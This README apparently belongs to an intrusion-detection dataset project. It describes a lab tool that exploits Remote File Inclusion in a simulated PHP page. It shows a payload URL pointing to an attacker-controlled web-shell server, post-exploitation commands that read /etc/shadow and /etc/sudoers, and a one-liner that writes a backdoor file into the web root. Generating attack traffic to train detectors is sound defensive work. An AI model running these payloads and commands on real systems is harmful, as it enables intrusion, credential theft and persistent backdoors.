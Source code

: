 # **Remote File Inclusion**

## **Table of Contents**

* [**Explaining the Attack**](#explaining-the-attack)
* [**How to Use**](#how-to-use)
  * [**Configurations**](#configurations)
  * [**Interactive Mode**](#for-interactive-mode) 
  * [**Repeat Mode**](#for-repeat-mode)

<br/>


## **Explaining the attack**
---

<br/>

A Remote File Inclusion vulnerability is when an application dynamically references external scripts, and those references can be, in some way, manipulated by the attacker.

This attacker will try to use the vulnerability to reference a malware file (e.g. web shells) that will be then included by the application.

In our case we simulated a pretty basic web page with a RFI vulnerability:

![image](https://github.com/LeoPer02/IDS-Dataset/assets/101013606/acc8ea53-4b36-47bb-abee-5d1b4953c8c7)

If you look at the URL you can see that we are grabbing the value of `file`.

![image](https://github.com/LeoPer02/IDS-Dataset/assets/101013606/47180119-a87f-4233-9e67-e68540dbdef0)


Now looking at the code we can see that the php script grabs the value of `file` and includes it.
This of course is a big security problem, since the attacker controls the value of the file variable.

The way we exploit this vulnerability can be summed up in the following steps:

* Generate a web shell that will be uploaded into the web page.
* Open a listener for the the web shell.
* Send a request with a general format of: ```http://victim.com/vulnerable.php?file=http://attacker_controled_server.com/web_shell.php```.
* Receive connection.
  * If in interactive mode allow the user to send arbitrary commands.
  * If in repeat mode execute some commands likely to be used by an attacker ```cat /etc/passwd, cat /etc/shadow, pwd, whoami, uname -a```, etc. and then exit.

![image](https://github.com/LeoPer02/IDS-Dataset/assets/101013606/abca75f5-ed35-4224-b556-d15c9a99c10d)

This is the interface the user will be presented with when executing the attack in interactive mode.

<br/>

## **How to use**
---
<br/>

This exploit can be ran in **interactive** and **repeat** mode.

From the **/path/to/project/IDS-Dataset/Attacks/WP** folder,

<br/>

### **Configurations:**

If you built the victim machine from scratch using our script you can use the following settings for the RFI attack:

``` Shell
sudo python3 main.py -c # To start the configuration process

Attacker ip: # Check the ip address with ' ifconfig '
Victim ip: # Check the ip address with ' ifconfig '
Exploit: 6
HTTPS: n
Victim Port: 80
Resource to access: /file_inclusion.php?file=
Is it correct: y
Activate auditing: y # Make sure the server is on, check Aux README for information
```

<br/>

### **For interactive mode:**
``` Shell
sudo python3 main.py # Don't forget to configure the config.ini on the 1st attack
```

This will print an address in the terminal that when clicked on will redirect you to the web shell with interface.

<br/>

### **For Repeat mode:**
``` Shell
sudo python3 main.py -r {number_times}
```

<br/>

This will utilize the RFI vulnerability to execute a bunch of commands that are likely to be executed by an attacker:
``` Shell
whoami
ls
ls -ltr
cat /etc/shadow
cat /etc/passwd
cd /
id
netstat
uname -a
crontab -l
lsmod
cat /etc/sudoers
cat /etc/os-release
ip link show
cd $(grep -e DocumentRoot -R /etc/apache2/sites-enabled/ | awk '{ print $3 }') && echo 'PoC, injected through RFI' | cat > possible_backdoor.php
```

